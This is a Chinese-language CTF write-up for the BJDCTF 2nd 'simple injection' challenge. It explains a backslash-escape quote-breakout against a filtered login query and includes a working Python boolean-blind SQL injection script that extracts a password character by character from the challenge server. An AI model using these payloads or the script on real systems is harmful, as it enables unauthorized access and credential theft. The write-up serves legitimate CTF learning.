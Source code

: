 # \[BJDCTF 2nd]简单注入

## \[BJDCTF 2nd]简单注入

## 考点

* 布尔盲注

## wp

在 hint.txt 发现提示

在 hint.txt 发现提示

```
Only u input the correct password then u can get the flag
and p3rh4ps wants a girl friend.

select * from users where username='$_POST["username"]' and password='$_POST["password"]';

//出题人四级压线才过 见谅见谅 领会精神
```

首先，burp爆破一下，看一下过滤了什么，union like select and -- = & select " ' 这些都被过滤\
根据给出的语句，如果输入 admin\ 则拼接之后如下

```
select * from users where username='admin\' and password=' or 1 # ';
```

后台执行SQL语句时将第二个单引号转义，那么第一个单引号闭合的就是第三个单引号，最后一个单引号使用#注释，再配合or语句，就可以进行注入。接下来是注入回显的判断，password输入 or 1 # ，返回 BJD needs to be stronger 输入 or 0 # 返回 You konw ,P3rh4ps needs a girl friend

这里就可以进行布尔盲注，最简单的爆破脚本如下

```python
import requests

url = 'http://305e9315-9616-4f0c-a957-36ea479221ed.node3.buuoj.cn/index.php'

flag = ''

for x in range(1,30):
    for i in range(32, 127):
    
        payload = f"or ascii(substr(password,{x},1))>{i} #"
        #print(payload)
        data = {
            "username": "admin\\",
            "password": payload
        }
        r = requests.post(url, data)
        if "BJD needs to be stronger" not in r.text:
            flag = flag + chr(i)
            break
    print(flag)
```

假设第一个字符为 a，a 的 ASCII 为 97，97大于32，所以payload返回BJD needs to be stronger，当 i 增加到 97 时，97大于97是假的，所以payload返回 You konw ,P3rh4ps needs a girl friend，此时第一个字符就是chr(97)

